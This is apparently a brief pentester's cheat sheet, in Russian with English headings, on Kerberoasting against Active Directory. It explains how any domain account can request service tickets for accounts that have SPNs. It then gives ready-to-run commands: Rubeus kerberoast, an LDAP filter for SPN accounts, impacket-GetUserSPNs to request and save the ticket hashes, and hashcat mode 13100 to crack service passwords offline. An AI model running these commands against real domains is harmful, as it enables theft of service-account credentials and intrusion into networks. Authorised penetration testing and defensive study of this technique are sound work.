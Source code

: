 # KERBEROASTING

### **Условие для проведения атаки**:

Учетная запись в домене с присвоенный SPN атрибутом.

Атакующий отправляет KRB\_TGS\_REQ сообщения с указанием SPN, ассоциированными с выявленными учетными записями. Контроллер домена не занимается авторизацией, то есть не проверяет имеет ли скомпрометированная учетная запись право доступа к запрашиваемым сервисам, (так как для выдачи TGS пользователю достаточно предоставить свой TGT) поэтому в ответ отправляются сообщения, содержащие TGS билеты, зашифрованные с использованием секретов сервисов. Таким образом, получив TGS-билеты, атакующий может попробовать подобрать пароль к сервисам по словарю оффлайн.

### Abuse

```powershell
Rubeus.exe kerberoast /stats
```

Ldap request to search for accounts that have SPN.

```powershell
"(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))"
```

Get users with SPN and send TGS-REQ

```bash
impacket-GetUserSPNs -dc-ip $DC_IP $Domain_FQDN/$username:$password -request -outputfile $file
```



### Brute

```bash
hashcat -m 13100 $kerberos_hashes $dictionary
```
